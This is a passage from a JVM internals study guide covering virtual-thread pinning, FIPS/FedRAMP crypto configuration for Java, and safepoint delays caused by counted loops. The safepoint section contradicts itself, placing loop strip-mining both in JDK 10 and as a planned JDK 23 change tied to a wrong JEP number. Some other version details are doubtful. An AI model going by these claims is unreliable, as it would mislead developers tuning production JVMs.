Early adopters (JDK 21, 2023-2024) report: replacing thread pool-based HTTP servers with virtual thread-per-request achieves equivalent throughput with dramatically simpler code. The main migration pain point is `synchronized` pinning in JDBC drivers and connection pools (HikariCP synchronized blocks pin carriers). HikariCP 5.1+ and most JDBC drivers are releasing virtual-thread-aware versions that replace synchronized with ReentrantLock. The recommendation: adopt virtual threads for new services, migrate existing services after verifying dependency compatibility.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Virtual Threads   | Reactive (WebFlux)  | Platform Threads   |
| -------------- | ----------------- | ------------------- | ------------------ |
| Concurrency    | 1M+ (I/O bound)   | 100K+ (I/O bound)   | 5K-10K max         |
| Code style     | Blocking (simple) | Reactive (complex)  | Blocking (simple)  |
| CPU-bound      | No benefit        | No benefit          | Direct parallelism |
| Learning curve | Low (same API)    | High (new paradigm) | None               |
| Ecosystem      | Evolving (JDK 21) | Mature (5+ years)   | Fully mature       |

---

### ⚡ Decision Snap

**USE VIRTUAL THREADS WHEN:**

- I/O-bound workload (HTTP, DB, messaging).
- Want simple blocking code at high concurrency.
- JDK 21+ and dependencies are compatible.

**USE REACTIVE (WebFlux) WHEN:**

- Already invested in reactive ecosystem.
- Need backpressure semantics (streaming data).
- JDK < 21 (no virtual thread support).

**USE PLATFORM THREADS WHEN:**

- CPU-bound workload (computation, not I/O).
- Need precise thread affinity (NUMA pinning).
- Legacy code that cannot migrate.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                              |
| --- | ---------------------------------- | ---------------------------------------------------------------------------------------------------- |
| 1   | "Virtual threads add parallelism"  | They add CONCURRENCY, not parallelism. CPU-bound work still limited by core count.                   |
| 2   | "No need for thread pools anymore" | Correct for I/O-bound virtual threads. Still need pools for CPU-bound work and resource limiting.    |
| 3   | "synchronized works fine"          | synchronized PINS virtual thread to carrier. Use ReentrantLock for blocks that perform I/O.          |
| 4   | "ThreadLocals work the same"       | At 1M virtual threads, ThreadLocals consume 1M copies of stored value. Memory explosion risk.        |
| 5   | "Virtual threads fix everything"   | Only fix I/O concurrency. Database connection limits, API rate limits still apply (need semaphores). |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - virtual threads interact differently with safepoints
- JVM-082 Biased Locking Removed JDK 15 and Thin Locks - synchronized/lock interaction with VTs

**THIS:** JVM-091 Project Loom and Virtual Thread Scheduling

**Next steps:**

- JVM-093 The Billion-Dollar Safepoint Bug Pattern - pinning as a modern safepoint-like issue
- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - carrier starvation mimics safepoint delays

---

**The Surprising Truth:**

Virtual threads make thread-per-request the CORRECT architecture again. For 15 years, Java best practice was "never create a thread per request - use thread pools." This advice exists because OS threads are expensive (1MB stack, slow creation). Virtual threads are cheap (1KB stack, ~1us creation). The thread-per-request model that was abandoned as unscalable in 2008 is now the RECOMMENDED pattern in 2024. Reactive programming (WebFlux, RxJava) solved a problem that virtual threads eliminate - the need for non-blocking I/O to achieve high concurrency with limited threads.

**Further Reading:**

- JEP 444: Virtual Threads (JDK 21, GA)
- Ron Pressler, "Project Loom: Fibers, Continuations and Tail-Calls for the JVM" (JVMLS 2018)
- Alan Bateman, "Virtual Threads: An Adoption Guide" (Inside.java, 2023)

**Revision Card:**

1. Virtual threads: M:N scheduling. Millions of VTs on N carrier threads (N = CPU cores). I/O-bound concurrency without reactive complexity.
2. Pinning trap: `synchronized` + blocking I/O pins carrier. Use ReentrantLock. Monitor with JFR `jdk.VirtualThreadPinned`.
3. Does NOT add parallelism. CPU-bound code limited by carrier count. Only I/O-bound workloads benefit from virtual threads.

**BAD:**

```java
// Pinning carrier with synchronized + I/O
synchronized (connectionPool) {
    Connection conn = connectionPool.acquire();
    // Carrier thread PINNED for entire query
    ResultSet rs = conn.executeQuery(sql);
    // 50ms blocking with carrier stuck
    connectionPool.release(conn);
}
// All carriers pinned -> zero throughput
```

**GOOD:**

```java
// ReentrantLock allows unmounting during I/O
private final ReentrantLock poolLock =
    new ReentrantLock();
poolLock.lock();
try {
    Connection conn = connectionPool.acquire();
    poolLock.unlock(); // Release lock before I/O
    try {
        ResultSet rs = conn.executeQuery(sql);
        // Virtual thread unmounts here (carrier free)
    } finally {
        poolLock.lock();
        connectionPool.release(conn);
    }
} finally {
    poolLock.unlock();
}
```

---

---

# JVM-092 JVM Compliance - FIPS, FedRAMP Considerations

**TL;DR** - Running JVM workloads in FIPS/FedRAMP environments requires validated cryptographic modules, restricted algorithm configurations, and specific JDK distributions that have undergone compliance certification.

---

### 🔥 Problem Statement

A development team builds a microservice that must run in a FedRAMP-authorized cloud environment. The security team rejects the deployment: "JVM's default cryptographic provider (SunJCE) is not FIPS 140-2 validated." The team did not realize that compliance requirements restrict which JDK distributions can be used, which cryptographic algorithms are available, and how TLS is configured. Without FIPS-validated crypto, the service cannot operate in regulated environments - regardless of how well it functions.

---

### 📜 Historical Context

FIPS 140-2 (Federal Information Processing Standard) mandates validated cryptographic modules for US government systems. FedRAMP extends this to cloud services handling government data. Java's default crypto providers (SunJCE, SunJSSE) are NOT FIPS-validated because Oracle/OpenJDK has not submitted them for validation. Solutions emerged: (1) Bouncy Castle FIPS certified module (2017), (2) Red Hat's RHEL-based FIPS mode (OpenSSL-backed FIPS module), (3) Azul Zulu with FIPS support. The FIPS 140-3 standard (2022) updates requirements but transition is ongoing.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Validation is per-module, not per-JDK:** FIPS validates specific cryptographic MODULE implementations (e.g., OpenSSL FIPS module, BC-FIPS). The JDK itself is not the unit of validation.
2. **Algorithm restriction is mandatory:** FIPS mode disables non-approved algorithms (MD5, DES, non-standard curves). Code using these algorithms FAILS at runtime in FIPS mode.
3. **Configuration determines compliance:** A validated module running in non-FIPS mode provides no compliance benefit. The FIPS mode must be ENABLED and verified.

**DERIVED DESIGN:**

These invariants mean: (1) choose a JDK distribution with FIPS-validated crypto path (RHEL OpenJDK + OpenSSL FIPS, or Bouncy Castle FIPS), (2) test ALL crypto operations under FIPS mode (many libraries use non-approved algorithms by default), (3) document which module provides FIPS validation and its certificate number.

**THE TRADE-OFF:**

**Gain:** Regulatory compliance. Authorization to operate in government and regulated environments. Auditable cryptographic operations.

**Cost:** Limited algorithm choice. Performance overhead (validated modules may be slower). Restricted JDK choices. Testing complexity (must test under FIPS mode separately).

---

### 🧠 Mental Model

> FIPS compliance is like a restaurant health certification. The kitchen (JVM) can cook anything, but the certification (FIPS) only covers specific recipes (approved algorithms) made with inspected ingredients (validated modules). Using uncertified ingredients (SunJCE) means the health department (auditor) shuts you down - even if the food tastes the same.

- "Kitchen" -> JVM runtime
- "Recipes" -> cryptographic algorithms
- "Inspected ingredients" -> FIPS-validated module
- "Health certification" -> FIPS 140-2 validation certificate
- "Health department" -> compliance auditor / ATO authority

**Where this analogy breaks down:** restaurants can use any ingredient and choose not to be certified. In regulated environments, FIPS compliance is MANDATORY - there is no option to operate without it. Also, the validation process takes 12-24 months and costs $100K+.

---

### 🧩 Components

- **FIPS 140-2/3 module:** Validated cryptographic implementation. Examples: OpenSSL FIPS module, Bouncy Castle FIPS (bc-fips), NSS FIPS module.
- **JCA/JCE provider configuration:** `java.security` file specifies provider order. FIPS mode forces the validated provider as primary.
- **Algorithm restrictions:** FIPS disables: MD5 (for non-signing), DES, 3DES (deprecated in FIPS 140-3), RC4, non-NIST curves. Only AES, SHA-2/3, RSA 2048+, ECDSA with approved curves.
- **TLS configuration:** Only TLS 1.2+ with FIPS-approved cipher suites. No anonymous suites, no export suites, no weak key exchange.
- **FIPS mode flag:** OS-level (RHEL `fips=1` kernel param) or JDK-level (provider config). Enforcement is system-wide or per-JVM.

```text
FIPS-compliant JVM stack:

  Option A: RHEL + OpenJDK + OpenSSL FIPS
    OS: RHEL 8/9 in FIPS mode (fips=1)
    JDK: Red Hat OpenJDK (patched for FIPS)
    Crypto: OpenSSL 3.x FIPS module
    Certificate: OpenSSL FIPS #4282

  Option B: Any JDK + Bouncy Castle FIPS
    OS: Any Linux
    JDK: Any OpenJDK 11+
    Crypto: bc-fips-1.0.x.jar as JCA provider
    Certificate: BC-FJA FIPS #3514

  Non-compliant (default):
    OS: Any
    JDK: Standard OpenJDK
    Crypto: SunJCE (NOT validated)
    Certificate: NONE - not FIPS compliant
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** Some environments (government, healthcare, finance) require that all cryptography uses officially validated implementations. Standard Java crypto is NOT validated. You need specific JDK configurations or add-on libraries to achieve compliance.

**Level 2 - How to use it:** Choose your FIPS strategy: (a) Run on RHEL in FIPS mode with Red Hat OpenJDK, or (b) Add Bouncy Castle FIPS JAR and configure as primary provider. Test all TLS connections and crypto operations under FIPS mode.

**Level 3 - How it works:** FIPS mode replaces the JVM's default crypto providers with a validated module. All `Cipher.getInstance()`, `Mac.getInstance()`, etc. calls route to the FIPS module. The module rejects non-approved algorithms at runtime (throws exception). TLS handshakes only use approved cipher suites.

**Level 4 - Production mastery:** The operational challenge: libraries that use non-approved algorithms fail silently or throw cryptic exceptions under FIPS. Common failures: (1) Jackson using MD5 for hashCode (not security - but FIPS rejects ALL MD5 usage), (2) HTTP clients using RC4 or 3DES cipher suites for legacy server compatibility, (3) Key derivation using non-approved KDFs. Requires extensive testing under FIPS mode before deployment. Maintain a FIPS compatibility test suite that runs in CI.

---

### ⚙️ How It Works

**Phase 1 - Module Activation:** At JVM startup, security provider list is configured to prioritize the FIPS module (via `java.security` file or system property).

**Phase 2 - Self-Test:** FIPS module runs known-answer tests (KATs) on startup to verify correct operation. If self-test fails, module refuses to operate.

**Phase 3 - Algorithm Gatekeeping:** Every crypto operation request is checked against the approved algorithm list. Non-approved algorithms are rejected immediately.

**Phase 4 - Key Management:** Keys must meet minimum sizes (RSA 2048+, AES 128+). Weak key generation attempts are rejected.

```text
FIPS mode startup sequence:
  1. Load FIPS provider (bc-fips or OpenSSL)
  2. Run self-tests (KAT: Known Answer Tests)
     - AES encrypt/decrypt test vector
     - SHA-256 hash test vector
     - HMAC test vector
     - RSA sign/verify test vector
  3. If ANY self-test fails: module DISABLED
  4. Register as priority 1 JCA provider
  5. Application crypto calls route to module
  6. Non-approved algo -> immediate exception

Runtime algorithm check:
  Cipher.getInstance("AES/GCM/NoPadding")
    -> APPROVED (FIPS allows AES-GCM)
  Cipher.getInstance("RC4")
    -> REJECTED: NoSuchAlgorithmException
  MessageDigest.getInstance("MD5")
    -> REJECTED (or degraded in some configs)
```



---

### 🚨 Failure Modes

**Failure 1 - Unexpected Algorithm Rejection:**

**Symptom:** Application works in non-FIPS environment but throws `NoSuchAlgorithmException` or `InvalidAlgorithmParameterException` in FIPS mode.

**Root cause:** Library uses non-approved algorithm internally (MD5 for cache key, 3DES for legacy protocol, non-NIST EC curve).

**Diagnostic:**

```bash
# Run with security debug to see provider calls:
java -Djava.security.debug=provider \
  -jar app.jar 2>&1 | grep -i "reject\|fail"
# Identifies which algorithm request failed
# and from which code path
```

**Fix:** Configure library to use approved algorithm. If not configurable, replace library. Some FIPS modules have "non-strict" mode allowing MD5 for non-security uses (check certification scope).

**Failure 2 - Performance Regression:**

**Symptom:** 30-50% throughput drop after enabling FIPS mode. TLS handshakes significantly slower.

**Root cause:** FIPS module does not use hardware acceleration (AES-NI, SHA-NI) or uses software implementation for compliance reasons.

**Diagnostic:**

```bash
# Compare TLS handshake time:
openssl s_time -connect host:443 -new -num 1000
# FIPS mode: check if AES-NI used:
# Provider documentation specifies HW support
```

**Fix:** Ensure FIPS module version supports hardware acceleration (newer versions do). OpenSSL 3.x FIPS module supports AES-NI. BC-FIPS 1.0.2+ supports hardware path.

---

### 🔬 Production Reality

The most common FIPS deployment pattern: RHEL 8/9 in FIPS mode as container base image. Red Hat builds OpenJDK with patches that route all JCA calls through the system's OpenSSL FIPS module when FIPS mode is active at the OS level. This is the lowest-friction path because it requires no application code changes - the FIPS routing happens transparently at the JDK level. However, testing is still essential: algorithms that work in non-FIPS mode may fail, and legacy protocols (TLS 1.0/1.1) are disabled.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | RHEL FIPS mode    | BC-FIPS JAR     | Custom NSS config |
| --------------- | ----------------- | --------------- | ----------------- |
| Complexity      | Low (OS-level)    | Medium (config) | High              |
| JDK flexibility | Red Hat OpenJDK   | Any JDK         | Specific NSS ver. |
| Performance     | Good (OpenSSL HW) | Moderate        | Good              |
| Certificate     | OpenSSL FIPS cert | BC-FJA cert     | NSS FIPS cert     |
| Maintenance     | OS updates        | JAR updates     | Manual            |

---

### ⚡ Decision Snap

**USE RHEL FIPS MODE WHEN:**

- Running on RHEL/CentOS/Rocky Linux.
- Want transparent FIPS without code changes.
- Using Red Hat OpenJDK or compatible.

**USE BOUNCY CASTLE FIPS WHEN:**

- Need FIPS on non-RHEL platform (Ubuntu, Alpine).
- Must use specific JDK distribution (Azul, Amazon Corretto).
- Need fine-grained control over provider configuration.

**PLAN FOR FIPS EARLY WHEN:**

- Product targets government, military, or regulated industries.
- FedRAMP authorization is in the roadmap (1-2 year horizon).

---

### ⚠️ Top Traps

| #   | Misconception                             | Reality                                                                                                                     |
| --- | ----------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Java is FIPS compliant by default"       | Standard OpenJDK's SunJCE is NOT validated. Requires specific configuration or modules.                                     |
| 2   | "FIPS = just use AES and SHA"             | FIPS restricts modes, key sizes, padding, and KDFs too. AES-ECB may be restricted. Specific curve sets for ECDSA.           |
| 3   | "Testing in non-FIPS mode is sufficient"  | Many libraries use non-approved algorithms that only fail in FIPS mode. Must test in FIPS mode specifically.                |
| 4   | "FIPS 140-2 validated = always compliant" | Certificate covers specific module version. Upgrading the library may void the certificate if new version not re-validated. |
| 5   | "Only crypto code needs FIPS"             | Any code touching TLS, hashing, signing, key exchange, random number generation is affected. Broader than expected.         |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-062 JVM Security Manager - Deprecated Alternatives - understand JVM security architecture
- JVM-086 Log4Shell and JVM Attack Surface (2021) - security context for compliance

**THIS:** JVM-092 JVM Compliance - FIPS, FedRAMP Considerations

**Next steps:**

- JVM-090 Ahead-of-Time Compilation (GraalVM Native) - native image compliance implications (FIPS + AOT)
- JVM-095 JVM Fleet Observability - Key Metrics - compliance monitoring at fleet scale

---

**The Surprising Truth:**

FIPS compliance can break your application in ways completely unrelated to security. Example: Apache HttpClient 4.x internally uses MD5 to generate cache keys for connection pooling (not for any security purpose). In FIPS strict mode, ALL MD5 usage is rejected - including this non-security use. The connection pool fails with `NoSuchAlgorithmException`, and the error message gives no hint that it is a FIPS issue. This pattern (non-security usage of restricted algorithms) is the #1 cause of FIPS deployment failures and requires exhaustive testing with full call-path coverage.

**Further Reading:**

- NIST SP 800-140: FIPS 140-3 Implementation Guidance
- Red Hat documentation: "Using RHEL in FIPS Mode with OpenJDK"
- Bouncy Castle documentation: "BC-FJA User Guide" (FIPS Java API)

**Revision Card:**

1. Standard OpenJDK crypto (SunJCE) is NOT FIPS validated. Use RHEL FIPS mode + OpenSSL module or Bouncy Castle FIPS JAR.
2. FIPS rejects non-approved algorithms at runtime. Libraries using MD5, RC4, DES, non-NIST curves will FAIL. Test in FIPS mode.
3. Lowest-friction path: RHEL 8/9 + `fips=1` kernel param + Red Hat OpenJDK. Transparent, no code changes required.

**BAD:**

```java
// Assuming default JDK is FIPS compliant
// Deployed to FedRAMP environment:
MessageDigest md = MessageDigest.getInstance("MD5");
// Works in dev, FAILS in FIPS production:
// NoSuchAlgorithmException: MD5 not available
// (FIPS module rejects MD5 entirely)
// Also: no FIPS module configured at all
// -> audit failure: "no validated crypto"
```

**GOOD:**

```java
// FIPS-approved algorithms only
MessageDigest md =
    MessageDigest.getInstance("SHA-256");
// AES-GCM for encryption:
Cipher cipher =
    Cipher.getInstance("AES/GCM/NoPadding");
// Verified: bc-fips-1.0.2.4.jar configured
// as priority 1 provider in java.security
// CI pipeline includes FIPS-mode test suite
// that catches non-approved algo usage early
```

---

---

# JVM-093 The Billion-Dollar Safepoint Bug Pattern

**TL;DR** - Counted loops without safepoint polls run unbounded before reaching a safepoint, creating pauses where one thread delays the entire JVM stop-the-world.

---

### 🔥 Problem Statement

A JVM application shows periodic, unexplained pauses of 5-30 seconds. GC logs show the GC itself is fast (50ms), but "time to safepoint" is 25 seconds. One thread running a counted loop (`for (int i = 0; i < array.length; i++)`) is preventing the JVM from reaching a safepoint because C2-compiled counted loops do not contain safepoint polls. Every other thread has stopped and is waiting for this ONE thread to finish its loop iteration. The entire JVM is hostage to a single optimized loop.

---

### 📜 Historical Context

This optimization exists because safepoint polls in tight loops add measurable overhead (1-5% throughput loss). C2 recognizes "counted loops" (loops with int/long counter and known bound) and omits safepoint polls to maximize throughput. The assumption: counted loops are short. The reality: counted loops iterating over large arrays (millions of elements) or performing expensive per-element computation can run for seconds. JDK 23 (JEP 404 planned) aims to add loop strip-mining (chunking) to all counted loops, bounding TTSP. Until then, this is a production hazard on JDK 8 through 22.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **JVM stop-the-world requires ALL threads at safepoints:** A GC or deoptimization cannot proceed until every thread has reached a safe state. One slow thread blocks all.
2. **C2 omits polls in counted loops:** Performance optimization. A safepoint poll is a memory load + branch (~5ns). In a tight loop running billions of times, this adds up.
3. **Uncounted loops DO have polls:** Loops with unknown bounds (while, iterator-based) contain safepoint polls and cannot cause this issue.

**DERIVED DESIGN:**

These invariants mean: (1) any counted loop iterating > ~10K times is a TTSP hazard, (2) converting to uncounted loop (iterator) or adding manual safepoint (Thread.yield, method call) fixes the issue, (3) loop strip-mining (JDK 10+ with `-XX:+UseCountedLoopSafepoints`) is the JVM-level fix.

**THE TRADE-OFF:**

**Gain:** Tight counted loops run 1-5% faster without safepoint poll overhead.

**Cost:** Potentially unbounded TTSP. One thread can pause entire JVM for seconds. Extremely hard to diagnose without knowing this pattern.

---

### 🧠 Mental Model

> Safepoints are like fire drills where everyone must reach the assembly point. Counted loops are employees wearing noise-canceling headphones - they cannot hear the fire alarm (safepoint poll is absent). Everyone else reaches the assembly point in milliseconds, but one headphone-wearing employee in a long meeting (billion iterations) keeps everyone waiting 25 seconds. The fix: tap them on the shoulder periodically (add safepoint polls) or limit meetings to 5-minute chunks (loop strip-mining).

- "Fire drill" -> stop-the-world request (GC, deopt)
- "Assembly point" -> safepoint
- "Noise-canceling headphones" -> no safepoint poll in loop
- "Long meeting" -> counted loop with many iterations
- "Everyone waiting" -> all threads stopped except one
- "Tap on shoulder" -> manual safepoint or poll insertion

**Where this analogy breaks down:** in a real fire drill, you would physically find the person. The JVM CANNOT interrupt a thread mid-loop - it must wait for the thread to voluntarily reach a poll point. There is no "forced preemption" for safepoint compliance.

---

### 🧩 Components

- **Safepoint poll:** Memory load from a page that is either readable (no safepoint requested) or protected (safepoint requested, causes trap/signal). Located at method returns, loop back-edges (uncounted), and deopt points.
- **Counted loop:** C2's definition: `for` loop with int/long counter, known bounds, and increment. C2 proves it terminates and OMITS polls.
- **Time-to-safepoint (TTSP):** Duration between safepoint request and ALL threads reaching safepoint. Dominated by the SLOWEST thread.
- **Loop strip-mining:** JDK 10+ (`-XX:+UseCountedLoopSafepoints`): C2 splits counted loops into chunks (default ~1024 iterations) with safepoint poll between chunks. Bounds TTSP.
- **-XX:+UseCountedLoopSafepoints:** Enables strip-mining for counted loops. Default: disabled (JDK 8-22). The fix for this entire problem class.

```text
Counted loop (C2 compiled, NO safepoint poll):
  for (int i = 0; i < 10_000_000; i++) {
      sum += array[i];
      // NO safepoint poll here
      // Thread runs 10M iterations uninterrupted
      // At 1ns/iter: 10ms blocked
      // At 100ns/iter: 1 SECOND blocked
  }

  GC requests safepoint:
    199 threads reach safepoint in 1ms
    1 thread in counted loop: 25s remaining
    TTSP = 25 seconds (unacceptable)

Fix (strip-mining, UseCountedLoopSafepoints):
  for (int i = 0; i < 10_000_000; ) {
      int chunk = min(1024, 10_000_000 - i);
      for (int j = 0; j < chunk; j++, i++) {
          sum += array[i]; // inner: no poll
      }
      // SAFEPOINT POLL here (between chunks)
      // Max TTSP: 1024 iterations * cost/iter
  }
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** Some optimized loops in Java prevent the JVM from pausing for garbage collection. One thread running a long loop can delay ALL other threads for seconds because the GC cannot start until every thread is ready.

**Level 2 - How to use it:** Enable `-XX:+UseCountedLoopSafepoints` (JDK 10+). Monitor TTSP with `-Xlog:safepoint=info`. If TTSP > 100ms: investigate which thread is slow (look for threads "not at safepoint" in safepoint logs).

**Level 3 - How it works:** C2 compiler optimizes "counted loops" (for loops with int counter) by removing safepoint polls from the loop body. This makes the loop faster but means the thread cannot respond to safepoint requests until the loop completes. Loop strip-mining splits the loop into chunks with polls between them, bounding the maximum time any thread can be unresponsive.

**Level 4 - Production mastery:** Diagnosis path: (1) `-Xlog:safepoint+stats=info` shows per-safepoint TTSP. (2) High TTSP events: correlate timestamp with thread activity. (3) `async-profiler -e wall` shows which threads are executing (not blocked) during the TTSP window. (4) Identify the counted loop. (5) Fix: enable UseCountedLoopSafepoints, or restructure the loop (use iterator, add manual `Thread.onSpinWait()` every N iterations).

---

### ⚙️ How It Works

**Phase 1 - Safepoint Request:** GC (or deopt) needs stop-the-world. Sets the safepoint page to protected.

**Phase 2 - Threads Respond:** Threads at method returns, uncounted loop back-edges, or in blocked state reach safepoint quickly (microseconds).

**Phase 3 - Straggler in Counted Loop:** One thread is inside C2-compiled counted loop. No poll in loop body. Thread continues executing loop iterations.

**Phase 4 - Wait:** All other threads are stopped and waiting. The straggler thread continues until loop completes or reaches the next poll point (method call inside loop body, if any).

**Phase 5 - Eventual Completion:** Loop finishes (or reaches non-inlined method call). Thread hits safepoint poll. FINALLY reaches safepoint. GC can proceed.

```text
C2 optimization decision tree for loops:
  Is loop counted? (int/long counter, known bound)
    YES: Omit safepoint poll (performance)
         UNLESS UseCountedLoopSafepoints=true
    NO:  Include safepoint poll at back-edge

  "Counted" means C2 can PROVE:
    - Loop variable is int or long
    - Increment is constant
    - Bound is loop-invariant
    - Loop terminates

  Examples:
    COUNTED (no poll): for(int i=0; i<n; i++)
    COUNTED (no poll): for(long i=0; i<n; i+=2)
    UNCOUNTED (has poll): while(iter.hasNext())
    UNCOUNTED (has poll): for(;;) { if(x) break; }
```

